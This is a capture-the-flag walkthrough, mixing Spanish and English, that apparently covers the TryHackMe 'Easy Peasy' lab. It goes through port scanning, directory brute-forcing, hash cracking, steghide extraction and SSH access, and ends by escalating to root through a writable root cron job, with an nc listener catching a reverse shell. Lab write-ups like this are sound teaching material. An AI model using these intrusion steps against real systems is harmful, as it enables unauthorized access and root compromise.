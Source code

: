 ## Objetivo
## Pistas
## Solución

```
Hacemos un escaneo completo

┌──(kali㉿kali)-[~/Documents/Seguridad de redes/easy]
└─$ nmap 10.10.169.113 -sV -p- -v --min-rate 5000
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-1
.....


PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.28 seconds


```

Hay 3 puertos
Version 1.16.1
Lo corre un apache

Using GoBuster, find flag 1.

usamos el got buster

```
┌──(kali㉿kali)-[~/Documents/Seguridad de redes/easy]
└─$ gobuster dir -u http://10.10.169.113 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 100
 Y conforme nos de directorios vamos a otros

Llegamos a este directorio 
http://10.10.169.113/hidden/whatever/
Hay una imagen, vemos el codigo fuente 
tenemos esto
ZmxhZ3tmMXJzN19mbDRnfQ==
vamos al ciberchef
flag{f1rs7_fl4g}

```
Further enumerate the machine, what is flag 2?

Vamos al puerto 65524
luego al robots
http://10.10.169.113:65524/robots.txt
encontramos 
a18672860d0510e5ab6699730763b250

vamos aca
https://md5.gromweb.com/?md5=a18672860d0510e5ab6699730763b250


Crack the hash with easypeasy.txt, What is the flag 3?

Habia otro puerto, el 65524
Vamos a ver que hay
http://10.10.169.113:65524

What is the hidden directory?

Página diferente aquí. Revisé el código fuente y obtuve otro hash para descifrar. ¡John al rescate!

```
┌──(root㉿kali)-[~]  
  
$ echo "$MY-HASH" > hash  
$ john hash --wordlist=$downloaded-task-file-password.dic  
Warning: detected hash type "gost", but the string is also recognized as "HAVAL-256-3"  
Use the "--format=HAVAL-256-3" option to force loading these as that type instead  
Warning: detected hash type "gost", but the string is also recognized as "Panama"  
...  
Loaded 1 password hash (gost, GOST R 34.11-94 [64/64])  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
mypasswordforthatjob (?)  
1g 0:00:00:00 DONE (2023-02-17 19:20) 50.00g/s 204800p/s 204800c/s 204800C/s mypasswordforthatjob..flash88  
Use the "--show" option to display all of the cracked passwords reliably

```

**8. Using the wordlist that provided to you in this task crack the hash  
what is the password?**

Explore hidden information in images

After downloaded the image on this weird path, I used [steghide](https://steghide.sourceforge.net/) to extract hidden information. For the passphrase I used the one extracted previously.
```

┌──(root㉿kali)-[~]  
  
$ steghide --extract -sf index.jpeg   
Enter passphrase: $PASSWORD-EXTRACTED-BEFORE  
wrote extracted data to "secrettext.txt".  
```


Hmmmm, interesting, a username and a password (for SSH?). Quickly went to cyberchef and retrieve the password.

**9. What is the password to login to the machine via SSH?**
```

After connecting through, ssh, I got a pretty dangerous message 👮

┌──(root㉿kali)-[~]  
  
$ ssh boring@$IP-ADDRESS -p 6498  
  
*************************************************************************  
**        This connection are monitored by government offical          **  
**            Please disconnect if you are not authorized        **  
** A lawsuit will be filed against you if the law is not followed      **  
*************************************************************************  
boring@10.10.102.202's password:   
You Have 1 Minute Before AC-130 Starts Firing  
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX  
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!  
You Have 1 Minute Before AC-130 Starts Firing  
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX  
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!  
  
User Flag But It Seems Wrong Like It`s Rotated Or Something  
synt{a0jvgf33zfa0ez4y}  
boring@kral4-PC:~$ exit  
logout

¡Vamos a ir rápido con esto! Desde el directorio principal, revisé el contenido del archivo user.txt. Sin embargo, encontré una sugerencia bastante interesante. Decía que la bandera estaba rotada (o algo así).

De “rotada” recuerdo rápidamente el cifrado césar de aprendizajes anteriores (gracias de nuevo, THM).

```

**10. What is the user flag?**
Por último, pero no por ello menos importante, faltaba una bandera raíz. Del último CTF creado, una de las cosas que verifico es el archivo que contiene todos los trabajos de cron. Este archivo se encuentra en /etc/crontab

```
┌──(root㉿kali)-[~]  
  
$ ssh boring@$IP-ADDRESS -p 6498  
  
...  
$ cat /etc/crontab  
# m h dom mon dow user command  
17 * * * * root    cd / && run-parts --report /etc/cron.hourly  
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
#  
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh






┌──(root㉿kali)-[~]  
  
# FROM THE ATTACK BOX  
$ nc -lvnp 4444  
Listening on [0.0.0.0] (family 0, port 4444)  
Connection from $IP 51612 received!  
bash: cannot set terminal process group (4279): Inappropriate ioctl for device  
bash: no job control in this shell  
root@kral4-PC:/var/www# whoami  
whoami  
root  
  
root@kral4-PC:/var/www# cd roo   
cd roo  
bash: cd: roo: No such file or directory  
root@kral4-PC:/var/www# cd root  
cd root  
bash: cd: root: No such file or directory  
root@kral4-PC:/var/www# ls  
ls  
html  
root@kral4-PC:/var/www# cd /root  
cd /root  
root@kral4-PC:~# ls -la  
ls -la  
total 40  
...  
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt  
root@kral4-PC:~# cat .root.txt  
cat .root.txt  
# VOILA!
```
## Notas adicionales
## Referencias